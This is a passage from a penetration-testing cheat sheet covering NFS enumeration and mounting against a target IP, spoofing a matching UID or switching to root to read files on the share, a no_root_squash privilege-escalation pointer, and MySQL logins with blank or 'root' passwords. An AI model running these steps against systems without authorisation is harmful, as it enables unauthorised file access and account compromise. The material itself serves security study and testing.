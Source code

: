 [HackTricks](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)

```sh
# scan with scripts
nmap -n -v -p 2049 -sV --script="safe and nfs-*" -oA nmap/nfs-scripts $VICTIM_IP

# list all mountpoints
showmount -a $VICTIM_IP
# list all directories
showmount -d $VICTIM_IP
# list all exports (remote folders you can mount)
showmount -e $VICTIM_IP

# the exports are also in /etc/exports
# look for exports with no_root_squash/no_all_squash setting for privesc
# https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

# Mounting an exported share:
# mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
# use version 2 because it doesn't have any authentication or authorization
# if mount fails, try without vers=2
# dir may need "/"prefix
# dir is one of showmount -e results (from /etc/exports)
mkdir nfs && \
sudo mount -t nfs -o rw,nolock,vers=2 $VICTIM_IP:DIR nfs

# create user with specific UID to be able to read files on your kali box
# "-s" login shell, "-M" no create home
sudo useradd -u 1014 -s /usr/sbin/nologin -M tempuser
# removing user when done:
sudo deluser --remove-home tempuser && sudo groupdel tempuser
# or just switch to root to read nearly everything:
sudo su
# if needing a specific group:
sudo groupadd -g 1010 tempgroup
sudo usermod -a -G tempgroup tempuser
```

See also: [6.7. Using NFS for Privilege Escalation](#67-using-nfs-for-privilege-escalation)

## 4.16. 3306 - MySQL

MySQL listens on `TCP 3306` by default. You'll see it during a port scan or when
running `netstat -tnl`.

Logging in:

```sh
## Locally:
# as root without password (if allowed)
mysql -u root
# same, but prompt for password
mysql -u root -p
# provide password
mysql -u root -p'root'

## Remotely:
mysql -u root -h HOSTNAME
```


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744